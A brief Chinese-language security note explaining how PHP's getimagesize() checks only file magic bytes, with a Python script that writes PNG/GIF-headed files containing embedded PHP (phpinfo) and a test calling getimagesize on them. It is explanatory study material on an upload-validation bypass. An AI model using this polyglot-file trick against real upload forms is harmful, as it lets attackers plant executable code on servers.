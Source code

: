 # getimagesize图片验证绕过

参考：

- https://0x1.im/blog/php/php-function-getimagesize.html

(PHP 4, PHP 5, PHP 7)

**解析：**

```c
PHPAPI int php_getimagetype(php_stream * stream, char *filetype TSRMLS_DC)
{
	...
	if (!memcmp(filetype, php_sig_gif, 3)) {
		return IMAGE_FILETYPE_GIF;
	} else if (!memcmp(filetype, php_sig_jpg, 3)) {
		return IMAGE_FILETYPE_JPEG;
	} else if (!memcmp(filetype, php_sig_png, 3)) {
		...
	}
}

PHPAPI const char php_sig_gif[3] = {'G', 'I', 'F'};
...
PHPAPI const char php_sig_png[8] = {(char) 0x89, (char) 0x50, (char) 0x4e, (char) 0x47,
                                    (char) 0x0d, (char) 0x0a, (char) 0x1a, (char) 0x0a};
```

可以看出来 image type 是根据文件流的前几个字节（文件头）来判断的

**测试代码**

```
<?php
print_r(getimagesize('test.php'));
```

利用python脚本生成文件

```python
with open('png.php','wb') as f:
    f.write(b'\x89PNG\r\n\x1a\n<?php phpinfo(); ?>')
with open('gif.php','wb') as f:
    f.write(b'GIF89a<?php phpinfo(); ?>')
```

测试

```php
<?php
print_r(getimagesize('png.php'));
print_r(getimagesize('gif.php'));
```

![](/images/19-7-23_PHP_getimagesize图片验证绕过_1.png)

